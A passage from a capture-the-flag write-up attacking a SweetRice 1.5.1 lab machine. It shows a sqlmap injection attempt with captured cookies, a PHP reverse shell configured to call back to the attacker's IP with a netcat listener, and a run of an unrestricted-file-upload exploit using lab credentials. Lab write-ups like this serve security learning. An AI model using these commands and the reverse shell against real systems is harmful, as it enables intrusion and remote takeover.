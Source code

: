 	![Screenshot-20200508004158-1852x795.png](./b75aedca7c97458f894d3b425bdf7acf.png)
	**Current version:** 1.5.1
9. SQL Injection from before might have needed authentication. Lets try with the cookies we now have: `sqlmap -u '10.10.244.128/content/as/?type=post&mode=insert&sys_name=a' -p sys_name --cookie="admin=manager; dashboad_bg=#006c02; passwd=42f749ade7f9e195bf475f37a44cafcb; sweetrice=467r2hr82ggh6tuhn8oe2g5qf4"`. Nope, still fails.
10. [`php-reverse-shell`](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) from pentestmonkey. Change `$ip` in `php-reverse-shell` to `10.9.53.2`. Start netcat: `nc -nvlp 1234`.
	1. `Arbitrary File Upload` vulnerability: `python3 /usr/share/exploitdb/exploits/php/webapps/40716.py`:
		```
		kali@kali:~$ python3 /usr/share/exploitdb/exploits/php/webapps/40716.py
		+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+
		|  _________                      __ __________.__                  |
		| /   _____/_  _  __ ____   _____/  |\______   \__| ____  ____      |
		| \_____  \ \/ \/ // __ \_/ __ \   __\       _/  |/ ___\/ __ \     |
		| /        \     /\  ___/\  ___/|  | |    |   \  \  \__\  ___/     |
		|/_______  / \/\_/  \___  >\___  >__| |____|_  /__|\___  >___  >    |
		|        \/             \/     \/            \/        \/    \/     |                                                    
		|    > SweetRice 1.5.1 Unrestricted File Upload                     |
		|    > Script Cod3r : Ehsan Hosseini                                |
		+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+
		
		Enter The Target URL(Example : localhost.com) : http://10.10.244.128/content 
		Enter Username : manager
		Enter Password : Password123
		Enter FileName (Example:.htaccess,shell.php5,index.html) : php-reverse-shell.php
		Traceback (most recent call last):
		  File "/usr/lib/python3/dist-packages/urllib3/connection.py", line 156, in _new_conn
		    conn = connection.create_connection(
		  File "/usr/lib/python3/dist-packages/urllib3/util/connection.py", line 61, in create_connection
		    for res in socket.getaddrinfo(host, port, family, socket.SOCK_STREAM):
		  File "/usr/lib/python3.8/socket.py", line 918, in getaddrinfo
		    for res in _socket.getaddrinfo(host, port, family, type, proto, flags):
		socket.gaierror: [Errno -3] Temporary failure in name resolution
		